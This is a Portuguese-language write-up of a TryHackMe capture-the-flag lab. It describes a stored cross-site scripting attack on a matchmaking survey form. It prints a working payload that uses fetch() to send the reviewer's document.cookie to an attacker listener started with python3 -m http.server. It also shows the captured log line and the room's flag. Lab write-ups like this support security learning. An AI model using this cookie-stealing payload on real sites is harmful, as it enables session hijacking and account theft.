



# TryHackMe — Cupid's Matchmaker
## Level 6 — Stored XSS via Personality Survey

**Categoria:** Web / Stored XSS / Cookie Exfiltration  
**Dificuldade:** Médio

---

### 💌 Concierge Briefing

> My Dearest Hacker,
> Tired of soulless AI algorithms? At Cupid's Matchmaker, real humans read your personality survey and personally match you with compatible singles. Our dedicated matchmaking team reviews every submission to ensure you find true love this Valentine's Day! 💘 No algorithms. No AI. Just genuine human connection.
>
> You can access the web app here: `http://10.64.160.85:5000`

---

## 🎯 Objetivo

O briefing esconde a vulnerabilidade no próprio argumento de venda: **"real humans read your personality survey"** e **"our dedicated matchmaking team reviews every submission"**. Quando um humano (ou um bot simulando um revisor) lê uma submissão no navegador, qualquer script embutido nos campos do formulário será executado no contexto do revisor. O objetivo é injetar JavaScript malicioso no survey e capturar o cookie da sessão do administrador quando ele revisar a submissão.

---

## 🔍 Passo 1 — Survey: Identificando a Superfície de Ataque

Acessando `http://10.64.160.85:5000/survey`:



O formulário de personalidade continha os seguintes campos de texto livre:

- **Name** (campo de texto)
- **What's your idea of a perfect Valentine's Day date?** (textarea)
- **Describe yourself in 3-5 words** (campo de texto)
- **What are you looking for in a partner?** (textarea)
- **Any dealbreakers or things to avoid?** (textarea)

Dois avisos na parte inferior confirmaram o vetor de ataque:

> *"Our team reads every word! Be creative and specific."*
> *"Our team typically reviews submissions within a minute."*

Esses avisos indicam que um **revisor humano** (ou bot) abre as submissões no navegador — tornando os campos do formulário um vetor direto de **Stored XSS**. Valores de teste `101` foram enviados inicialmente para confirmar que os dados eram armazenados e exibidos para revisão.

---

## 🔍 Passo 2 — Preparando o Listener: HTTP Server para Captura de Cookies

Antes de enviar o payload, um servidor HTTP foi iniciado na máquina do atacante para receber as requisições exfiltradas:

```bash
python3 -m http.server 8000
```

Qualquer requisição chegando neste servidor seria registrada nos logs — incluindo cookies roubados passados como parâmetro de query.

---

## 🔍 Passo 3 — Injeção: XSS Payload em Todos os Campos

O payload de XSS foi inserido em **todos os campos de texto** do formulário para maximizar as chances de execução quando o revisor abrir a submissão:



```html
<script>fetch('http://192.168.133.90:8000/?c='+document.cookie)</script>
```

O payload foi colocado em:
- **Name**
- **Valentine's Day date**
- **Describe yourself**
- **What are you looking for in a partner**
- **Any dealbreakers or things to avoid**

O mecanismo é simples: quando o revisor abrir a submissão no navegador, o JavaScript executará `document.cookie`, capturará o valor do cookie de sessão e o enviará via `fetch()` para o servidor HTTP do atacante como parâmetro `?c=`.

---

## 🚩 Passo 4 — Cookie Exfiltrado: Flag nos Logs

Aproximadamente um minuto após o envio, as requisições começaram a chegar no servidor HTTP:



Os logs registraram múltiplas requisições provenientes do revisor, incluindo:

```
"GET /?c=flag=THM%7BXSS_CuP1d_Str1k3s_Ag41n%7D HTTP/1.1" 200 -
```

URL-decodificado:

```
?c=flag=THM{XSS_CuP1d_Str1k3s_Ag41n}
```

O cookie de sessão do revisor continha diretamente a flag — exfiltrada pelo próprio JavaScript injetado na submissão do survey.

---

## 🚩 Flag

```
THM{XSS_CuP1d_Str1k3s_Ag41n}
```

---

## 📝 Resumo da cadeia de investigação

1. **Survey** (`/survey`) → formulário com múltiplos campos de texto livre armazenados no servidor
2. **Dica explícita** → *"Our team reads every word"* e *"typically reviews within a minute"* confirmam revisão no navegador (Stored XSS)
3. **Teste inicial** → valores `101` em todos os campos confirmam armazenamento e exibição para revisão
4. **HTTP server** → `python3 -m http.server 8000` iniciado na máquina do atacante para receber os cookies exfiltrados
5. **Payload XSS** → `<script>fetch('http://192.168.133.90:8000/?c='+document.cookie)</script>` injetado em todos os campos e formulário submetido
6. **Bot-admin revisa** → o script executa no navegador do revisor ~1 minuto após o envio
7. **Cookie exfiltrado** nos logs: `?c=flag=THM{XSS_CuP1d_Str1k3s_Ag41n}`

---